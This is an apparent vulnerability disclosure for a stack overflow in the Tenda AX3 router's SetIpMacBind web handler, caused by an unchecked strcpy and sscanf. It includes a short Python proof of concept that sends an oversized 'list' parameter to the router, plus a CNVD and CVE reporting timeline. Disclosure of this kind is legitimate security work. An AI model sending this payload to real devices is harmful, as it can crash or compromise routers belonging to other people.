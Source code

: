 ## Tenda Router AX3 Vulnerability

There is a vulnerability lies in page /goform/SetIpMacBind,which influences the lastest version of Tenda Router AX3([V16.03.12.10_CN](https://www.tenda.com.cn/download/detail-3238.html)).

## Description

Vulnerable function fromSetIpMacBind

![image-20220117231339966](1.png)

The variable v4 is directly obtained directly from the http request parameter list without any sercuity check. 

v4 will be copied to the stack variable s by the strcpy function, resulting in stack overflow.

The stack variable s will be formatted and input into the three stack variables of v20, v16, and v17 through the scanf function, resulting in stack overflow.

![image-20220117231748141](2.png)

Combining the above two vulnerabilities,  attacker can perform remote code execution with crafted overflow data.

## POC

```python
import requests
from pwn import *

url = "http://192.168.0.1/goform/SetIpMacBind"
bindnum = "3"
var_list = "b" * 0x1000
r = requests.post(url, data={'bindnum': bindnum,'list':var_list})
print(r.content)
```

## Timeline

- 2022-1-14 report to CNVD
- 2022-1-17 report to CVE
